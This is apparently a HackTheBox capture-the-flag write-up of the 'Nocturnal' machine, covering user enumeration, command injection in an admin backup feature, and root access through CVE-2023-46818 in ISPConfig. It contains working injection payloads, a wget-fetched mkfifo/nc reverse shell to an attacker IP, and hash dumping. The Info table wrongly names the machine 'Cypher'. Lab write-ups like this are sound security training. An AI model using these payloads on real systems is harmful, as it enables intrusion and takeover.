

<p align="center">
  
</p>

[Nocturnal](https://www.hackthebox.com/machines/nocturnal) machine on [HachTheBox](https://www.hackthebox.com/) is an easy-level machine. After registering on the web portal, we find a flaw that lets us enumerate users and view their uploaded files. From one of these files, we extract a password that grants access to the site’s admin panel. Inside the panel, the backup function is vulnerable to command injection, which we exploit to get our initial shell.
For privilege escalation, we discover a service running on a port that’s only accessible internally. Using port forwarding, we make it reachable and exploit a vulnerability in that service to gain root access.

## Info

|------------------|----------------------------|
| **Name**         | Cypher                      |
| **OS**           | Linux                      |
| **Difficulty**   | Easy   🟢                  |

## Port scanning

The assessment begins by identifying the services exposed by the target host.

```bash
┌──(kali㉿kali)-[~/Documents/HTB]
└─$ nmap -sC -sV nocturnal.htb
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-21 09:56 EDT
Nmap scan report for nocturnal.htb (10.129.148.22)
Host is up (0.045s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 20:26:88:70:08:51:ee:de:3a:a6:20:41:87:96:25:17 (RSA)
|   256 4f:80:05:33:a6:d4:22:64:e9:ed:14:e3:12:bc:96:f1 (ECDSA)
|_  256 d9:88:1f:68:43:8e:d4:2a:52:fc:f0:66:d4:b9:ee:6b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Welcome to Nocturnal
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.63 seconds
```

From the scan results, we find a website hosted on port 80.


At `http://nocturnal.htb/register.php` (linked through “Register”), we create a test account with credentials `test:test` and log in. After logging in, we are presented with a file upload form.


Trying to upload a dummy `.txt` file shows an `Invalid file type` message at the top. It indiates that we can only use `pdf, doc, docx, xls, xlsx, odt` extensions.


After uploading a valid file, it appears in a list below the form. The file can be accessed at a URL like `view.php?username=test&file=test.php.pdf` (in this case)


An interesting behavior is observed when modifying the username parameter in the file’s `view` URL. Substituting the value with a random string returns a `User not found message`, suggesting that this functionality can be leveraged for user enumeration.


## Initial foothold

To brute force usernames, we run `ffuf` with the `PHPSESSID` from our browser session. Using the `rockyou.txt` wordlist and filtering out responses that include `User not found`, we can identify valid users.

```bash
┌──(kali㉿kali)-[~]
└─$ ffuf -u 'http://nocturnal.htb/view.php?username=FUZZ&file=test.php.pdf' -b 'PHPSESSID=vm32mfhjvov5mjeg3uhauco5rb' -w /usr/share/wordlists/rockyou.txt -c -fr 'User not found'

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://nocturnal.htb/view.php?username=FUZZ&file=test.php.pdf
 :: Wordlist         : FUZZ: /usr/share/wordlists/rockyou.txt
 :: Header           : Cookie: PHPSESSID=vm32mfhjvov5mjeg3uhauco5rb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: User not found
________________________________________________

amanda                  [Status: 200, Size: 3113, Words: 1175, Lines: 129, Duration: 35ms]
<SNIP>

```

We got a hit on `amanda` user and when setting that user on the URL param we get listed a file called `privacy.odt`


We download the file and open it. Inside, there’s a message from `amanda` (IT Team) that contains a password, which might be reused for another service.


Using that to login on the website we previously found reveals a new link at the top that says `Go to admin panel`


Inside the admin panel, we find options to preview server files and create backups—features that could be vulnerable to exploitation.


When we test the backup feature, the output looks very similar to what `zip` would produce, indicating that the system might be running shell commands behind the scenes.



We attempt command injection by entering `test; id` in the password field to see if the application executes it on the server.


Our payload changes the app’s behavior but still counts as a valid password, suggesting there’s some input filtering. Looking through `admin.php`, we find a filtering function and the `zip` command execution, which we’ll need to bypass to run arbitrary commands.


Despite certain character filters, the application does not restrict the use of URL-encoded new-line (%0a) and tab (%09). These can be leveraged in the following payload to bypass input restrictions.

```bash
# <NEWLINE>bash -c  "id"<NEWLINE>
password=%0abash%09-c%09"id"%0a&backup=
```


Now that we can run commands as `www-data`, we create a reverse shell file and start a Python server on our machine to serve it to the target.

```bash
┌──(kali㉿kali)-[~]
└─$ vim shell
                                                                                                                    
┌──(kali㉿kali)-[~]
└─$ cat shell                                      
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.217 4444 >/tmp/f
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```

And run another shell listening on port `4444` for our reverse shell

```bash
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 4444        
listening on [any] 4444 ...
```

Back in BurpSuite, we run the payload to fetch the reverse shell file from our Python server onto the target.

```bash
password=%0abash%09-c%09"wget%0910.10.14.217:8081/shell"%0a&backup=
```


We run the reverse shell file with our payload, which gives us a shell back to the attacker machine.

```bash
password=%0abash%09shell%0a&backup=
```


After getting a shell, we explore the `nocturnal_database` folder and find a `users` table that contains usernames along with their hashed passwords.

```bash
www-data@nocturnal:~/nocturnal_database$ sqlite3 nocturnal_database.db
sqlite3 nocturnal_database.db
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
.tables
uploads  users  
sqlite> select * from users;
select * from users;
1|admin|d7<REDACTED>
2|amanda|df<REDACTED>
4|tobias|55<REDACTED>
6|kavi|f3<REDACTED>
7|e0Al5|10<REDACTED>
8|test|09<REDACTED>
```

A fast check on [crackstation](https://crackstation.net/) reveals password for hash from `tobias` user


Testing that on SSH gives us access as `tobias` and we can grab `user.txt` file

```bash
┌──(kali㉿kali)-[~/Documents/HTB/nocturnal]
└─$ ssh tobias@nocturnal.htb    
tobias@nocturnal.htb's password: 
...
tobias@nocturnal:~$ cat user.txt 
a7<REDACTED>
```

## Privilege escalation

There seems to be something running on port 8080 only accessible from inside the box

```bash
tobias@nocturnal:~$ netstat -punta
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:587           0.0.0.0:*               LISTEN      -                   
tcp        0      1 10.129.148.22:51590     8.8.8.8:53              SYN_SENT    -                   
tcp        0      0 10.129.148.22:44474     10.10.14.217:4444       CLOSE_WAIT  -                   
tcp        0      0 127.0.0.1:8080          127.0.0.1:44290         TIME_WAIT   -                   
tcp        0    388 10.129.148.22:22        10.10.14.217:57774      ESTABLISHED -                   
tcp        0      0 127.0.0.1:8080          127.0.0.1:50656         TIME_WAIT   -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -                   
udp        0      0 127.0.0.1:58543         127.0.0.53:53           ESTABLISHED -           
```

To access the internal service from the attacker machine, port forwarding is configured. The following command maps the internal port 8080 to the attacker machine’s port 9090, enabling remote access.

```bash
┌──(kali㉿kali)-[~/Documents/HTB/nocturnal]
└─$ ssh -L 9090:127.0.0.1:8080 tobias@nocturnal.htb
```

Accessing to `http://127.0.0.1:9090` on our browser we get a login panel for an application called ISPConfig


Looking at the source code we find it is ISPConfig version 3.2


Researching revealed a [vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2023-46818) affecting ISPConfig versions before 3.2.11p1
Using a public [exploit](https://github.com/ajdumanhug/CVE-2023-46818/blob/main/CVE-2023-46818.py) we can target the ISPConfig service on the box, escalate to root, and capture `root.txt`

```bash
┌──(kali㉿kali)-[~/Documents/HTB/nocturnal]
└─$ wget https://raw.githubusercontent.com/ajdumanhug/CVE-2023-46818/refs/heads/main/CVE-2023-46818.py

┌──(kali㉿kali)-[~/Documents/HTB/nocturnal]
└─$ python3 CVE-2023-46818.py http://127.0.0.1:9090 admin <REDACTED-TOBIAS_PASSWORD>
[+] Logging in with username 'admin' and password '<REDACTED-TOBIAS_PASSWORD>'
[+] Login successful!
[+] Fetching CSRF tokens...
[+] CSRF ID: language_edit_09e5b40aaf6ad519cac6da57
[+] CSRF Key: f756c48fe28967e2f6baefd4f8ac196319cc353f
[+] Injecting shell payload...
[+] Shell written to: http://127.0.0.1:9090/admin/sh.php
[+] Launching shell...

ispconfig-shell# whoami
root

ispconfig-shell# cat /root/root.txt
d0<REDACTED>
```
